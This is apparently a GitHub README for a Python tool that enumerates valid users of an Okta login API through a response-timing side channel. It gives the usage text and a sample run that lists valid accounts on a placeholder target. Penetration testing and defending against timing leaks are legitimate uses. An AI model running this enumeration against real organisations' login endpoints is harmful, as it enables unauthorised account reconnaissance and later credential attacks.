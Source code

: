 # OKTASideChannelAttack
OKTA side channel attack to enumerate users

# Usage
```
$ python okta.py
OKTA Side Channel User Enumeration
Mr.Un1k0d3r RingZer0 Team 2017


Usage: python okta.py [url] [valid_user] [path] [delay]

        Url        Full url to the authn API (/api/v1/authn)
        Valid User Valid user to benchmark the delay
        Path       Path to a list of username
        Delay      Maximum delay difference around 0.010 should be good
```

```
$ python okta.py https://target.com/api/v1/authn ringzer0@team.com users.txt 0.010
OKTA Side Channel User Enumeration
Mr.Un1k0d3r RingZer0 Team 2017

[+] Valid user benchmark is 0.265012
[+] Everything slower than 0.255012 will be considered valid
       neo@team.com is valid
       morpheus@team.com is valid
```

# Credit
Mr.Un1k0d3r RingZer0 Team
